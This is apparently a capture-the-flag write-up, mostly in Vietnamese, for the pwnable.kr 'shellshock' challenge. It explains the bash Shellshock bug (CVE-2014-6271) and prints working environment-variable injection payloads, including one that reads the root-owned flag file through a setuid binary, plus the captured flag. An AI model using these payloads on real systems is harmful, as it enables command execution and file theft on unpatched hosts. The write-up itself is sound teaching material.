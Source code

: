 # Source

Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)

[Source]()

# 📚Theory (Shellshock)

- Shellshock có cơ chế hoạt động là khi một shell được gọi và export một biến môi trường (Ở đây là một hàm được định nghĩa). Sau đó shell thứ 2 được gọi, nó sẽ thấy biến môi trường được export trước đó và thực hiện đánh giá và lưu nó. Tuy nhiên khi đánh giá, nó không chỉ dừng lại khi hàm kết thúc ( kết thúc với dấu __;__). Điều này khiến cho hacker có thể chèn thêm câu lệnh vào sau khai báo hàm để shell khi đánh giá biến môi trường này sẽ đồng thời thực thi câu lệnh đó.
- `env func='() { :;}; echo Hacked' bash -c`
    - env: dùng để khai báo biến môi trường.
    - func: tên biến
    - '': bên trong dấu nháy đơn là khai báo hàm, kẻ tấn công đã chèn thêm câu lệnh `echo Hacked`.
    - bash -c: gọi đến một shell thứ 2, shell này sẽ xem các biến môi trường, đồng thời thực thi luôn payload đã bị tiêm vào.

[Tham khảo](https://fedoramagazine.org/shellshock-how-does-it-actually-work/)

# Solve

- Ở đây, hiểu được cơ chế hoạt động của shellshock. Đồng thời, phân tích source code của file shellshock thì biết được shell trong chương trình được thực thi với uid của root.
=> Kết hợp điều này, payload sẽ là:
```bash
$ env x='() { :;}; /bin/cat flag' ./shellshock
```
- Chạy payload trên server:
```bash
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
shellshock@pwnable:~$
```
### 🚩Flag: `only if I knew CVE-2014-6271 ten years ago..!!`